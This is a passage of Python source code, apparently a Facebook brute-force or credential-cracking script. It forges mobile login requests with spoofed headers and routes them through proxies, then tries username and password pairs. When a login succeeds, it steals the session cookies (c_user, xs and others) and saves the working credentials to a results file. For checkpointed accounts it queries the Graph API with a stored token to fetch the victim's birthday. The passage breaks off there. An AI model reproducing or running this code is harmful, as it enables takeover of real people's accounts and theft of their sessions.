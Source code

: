                 p = session.get('https://'+cebok+'/login/device-based/password/?uid='+user+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr')
                dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":user,"next":"https://"+cebok+"/v2.3/dialog/oauth?app_id=124024574287414&cbt=1651658200978&e2e=%7B%22init%22%3A1651658200978%7D&sso=chrome_custom_tab&scope=email&state=%7B%220_auth_logger_id%22%3A%2268f15bae-23f8-463c-8660-5cf1226d97f6%22%2C%227_challenge%22%3A%22dahj28hqtietmhrgprpp%22%2C%223_method%22%3A%22custom_tab%22%7D&redirect_uri=fbconnect%3A%2F%2Fcct.com.instathunder.app&response_type=token%2Csigned_request%2Cgraph_domain%2Cgranted_scopes&return_scopes=true&ret=login&fbapp_pres=0&logger_id=68f15bae-23f8-463c-8660-5cf1226d97f6&tp=unspecified","flow":"login_no_pin","pass":pw,}
                koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
                koki+=' m_pixel_ratio=2.625; wd=412x756'
                heade={'Host': cebok,'cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://'+cebok,'content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://'+cebok+'/login/device-based/password/?uid='+user+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}
                po = session.post('https://'+cebok+'/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
                if "c_user" in session.cookies.get_dict():
                    cooz = session.cookies.get_dict()
                    coki = 'datr=' + cooz['datr'] + ';' + ('c_user=' + cooz['c_user']) + ';' + ('fr=' + cooz['fr']) + ';' + ('xs=' + cooz['xs'])
                    if "t" in Apk:
                        print('\r %sOK %s               \n Username : %s\n Password : %s%s'%(H,waktu,user,pw,N))
                        print(f'\r {H}Cookie   : {coki}\n')
                    elif "y" in Apk:
                        print(f'\r %sOK %s               \n Username : %s\n Password : %s%s'%(H,waktu,user,pw,N))
                        print(f'\r {H}Cookie   : {coki}')
                    wrt = '[JAMES-OK] %s • %s' % (user,pw)
                    ok.append(wrt)
                    cek_apk(session,coki)
                    open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                    break
                elif 'checkpoint' in session.cookies.get_dict():
                    try:
                        tokenz = open('.token.txt').read()
                        cp_ttl = session.get(f'https://graph.facebook.com/{user}?fields=birthday&access_token={tokenz}').json()['birthday']